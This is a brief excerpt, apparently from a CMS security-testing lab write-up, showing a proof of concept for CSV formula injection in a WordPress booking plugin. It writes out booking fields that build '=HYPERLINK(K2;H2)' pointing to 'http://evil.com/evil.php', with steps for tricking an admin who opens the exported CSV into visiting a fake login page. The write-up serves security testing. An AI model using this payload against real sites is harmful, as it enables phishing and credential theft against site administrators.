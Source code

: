 ```
New booking:

Name: IMPORTANT DATA
Description: http://evil.com/evil.php

New booking:

Name: test
Description: =HYPERLINK(K2;H2)

This is the way it would work if i had a business registered and the payment was completed it can also be done by adding the new bookings with the same data from the admin panel

3) Then we go to Bookings List and export the CSV file
4) After that we open the file, and import data from an external file, using comma as separator
5) Hyperlink to malicious PHP file is inserted and the user clicks on it, user is redirected to a fake login page (for example)

Tested on Windows 7 Pro SP1 32-bit, Wordpress 5.3.2 and Excel 2016
```

![Lab - WordPress Plugin Stored XSS 3](./assets/08_cms_security_testing_lab_wordpress_plugin_stored_xss_3.png)
